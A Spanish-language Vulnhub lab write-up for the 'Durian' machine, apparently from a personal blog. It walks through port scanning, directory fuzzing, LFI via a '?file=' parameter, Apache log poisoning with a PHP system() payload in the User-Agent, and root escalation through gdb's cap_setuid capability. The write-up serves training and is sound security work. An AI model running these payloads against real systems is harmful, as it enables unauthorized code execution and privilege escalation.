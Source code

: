 ```yaml
---
layout: single
title: Durian - Vulnhub
date: 25/10/2023
classes: wide
header:
  teaser:
  icon: /assets/images/vulnhub.webp
tags:
  - LFI > RCE - Abusing /proc/self/fd/X + Log Poisoning
  - Abusing capabilities (cap_setuid+ep on gdb binary)
  - Web Enumeration
  - fácil
  - linux
---
```


Para poder vulnerar esta máquina primero debemos hacer una enumeración web, en la cual obtendremos la dirección de un recurso PHP, del cual nos podemos aprovechar para poder llevar a cabo el LFI, a través de ahí contaminar el log de acceso de apache para poder ejecutar nuestro código malicioso PHP y convertirlo en un RCE, entablandonos una reverse shell para posterior a ello escalar privilegios,.


# PortScan
__________


```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web
_______

![](/assets/images/durian/Pasted image 20231025182531.png)

# Fuzzing de Sitio Web.
_______

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![](/assets/images/durian/Pasted image 20231025182939.png)

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning
_________

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![](/assets/images/durian/Pasted image 20231025184632.png)


Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 
_________

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![](/assets/images/durian/Pasted image 20231025185034.png)

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![](/assets/images/durian/Pasted image 20231025185353.png)

Para controlar desde la URL la ejecución de comando, como podemos ver:

![](/assets/images/durian/Pasted image 20231025185808.png]])
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.
_______

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![](/assets/images/durian/Pasted image 20231025195554.png)






